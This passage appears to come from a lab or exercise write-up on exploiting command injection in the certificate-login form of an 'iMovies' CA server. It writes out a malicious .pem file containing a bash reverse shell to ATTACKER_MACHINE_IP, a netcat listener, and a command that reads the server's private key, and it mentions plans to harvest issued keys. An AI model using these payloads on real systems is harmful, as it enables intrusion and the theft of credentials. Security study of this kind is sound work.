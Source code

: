 As certificate login is a publicly available feature, an adversary only needs to maliciously crafted `.pem` certificate file (some restrictions in regards to the network may still apply).

To exploit this vulnerability:

1. Generate a file with the following contents and name it `pwn.pem`:

```text
-----BEGIN CERTIFICATE-----
$(/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_MACHINE_IP/80 0>&1')
-----END CERTIFICATE-----
```

2. Setup DHCP server as before, start a listener on the attacker machine

```shell
sudo nc -l -n -vv -p 80 
```

3. Navigate to `https://imovies.ch/` and in the certificate login form, select `pwn.pem` from the filesystem and submit it. We get a shell!

(**Note:**) We may be also able to use this to bypass authentication, by performing a shell command which copies a valid certificate from the system to the the temp file:


In both backdoors we are running as the user `www-data`.

From the spawned shell, we could steal the servers' private key:

```shell
www-data@ca-server:/opt/Ca_Server$ cat ./root/web_server.key.pem
```

The agent will then be able to decrypt all traffic. Neat!

Unfortunately the backup script inside `laurin`'s home directory is write protected and we cannot get root that way. But still, our access is sufficient to compromise iMovies journalists and agents and issue certificates without any regulation. We can set up a monitor that forwards all issued private keys to us - the possibilities are endless!

## Additional notes

1. When scanning all servers on the internal network, all of them have the same ssh host keys. If we manage to obtain the keypair of only one of the machines, then we can spoof any of the machines.
